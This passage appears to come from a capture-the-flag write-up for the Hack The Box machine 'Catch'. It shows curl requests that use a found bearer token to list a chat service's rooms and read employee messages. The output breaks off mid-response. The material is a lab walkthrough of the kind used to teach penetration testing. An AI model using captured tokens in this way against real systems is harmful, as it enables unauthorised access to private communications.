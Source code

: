 There are three messaging rooms: "Cachet Updates and Maintenance," "Android Development," and "New Joinees, Org updates." `admin` is the owner of them all.

```bash
$ curl -s http://catch.htb:5000/rooms -H 'Authorization: Bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==' | jq '.'
[
  {
    "id": "61b86b28d984e2451036eb17",
    "slug": "status",
    "name": "Status",
    "description": "Cachet Updates and Maintenance",
    "lastActive": "2021-12-14T10:34:20.749Z",
    "created": "2021-12-14T10:00:08.384Z",
    "owner": "61b86aead984e2451036eb16",
    "private": false,
    "hasPassword": false,
    "participants": []
  },
  {
    "id": "61b8708efe190b466d476bfb",
    "slug": "android_dev",
    "name": "Android Development",
    "description": "Android App Updates, Issues & More",
    "lastActive": "2021-12-14T10:24:21.145Z",
    "created": "2021-12-14T10:23:10.474Z",
    "owner": "61b86aead984e2451036eb16",
    "private": false,
    "hasPassword": false,
    "participants": []
  },
  {
    "id": "61b86b3fd984e2451036eb18",
    "slug": "employees",
    "name": "Employees",
    "description": "New Joinees, Org updates",
    "lastActive": "2021-12-14T10:18:04.710Z",
    "created": "2021-12-14T10:00:31.043Z",
    "owner": "61b86aead984e2451036eb16",
    "private": false,
    "hasPassword": false,
    "participants": []
  }
]
```

"New Joinees, Org updates"

```bash
$ curl -s http://catch.htb:5000/rooms/61b86b3fd984e2451036eb18/messages -H 'Authorization: Bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==' | jq '.'
[
  {
    "id": "61b86f5cfe190b466d476bf7",
    "text": "Thanks @admin ",
    "posted": "2021-12-14T10:18:04.710Z",
    "owner": "61b86f15fe190b466d476bf5",
    "room": "61b86b3fd984e2451036eb18"
  },
  {
    "id": "61b86ef2fe190b466d476bf4",
    "text": "Please welcome our new IT Admin - Lucas, a crucial role that will help Catch’s revenue and will contribute to the overall profitability of the company!",
    "posted": "2021-12-14T10:16:18.187Z",
```